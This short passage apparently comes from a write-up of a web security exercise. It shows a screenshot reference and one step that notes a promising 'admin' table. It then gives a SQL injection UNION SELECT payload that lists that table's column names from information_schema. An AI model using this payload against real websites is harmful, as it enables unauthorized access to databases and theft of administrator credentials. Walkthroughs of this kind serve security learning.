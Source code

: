 ![](/assets/img/post_images/post2/Inkedscreenshot7.jpg)

The `admin` table at the bottom looks promising. Next we'll see what fields the `admin` table has with `' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_name='admin'-- -`
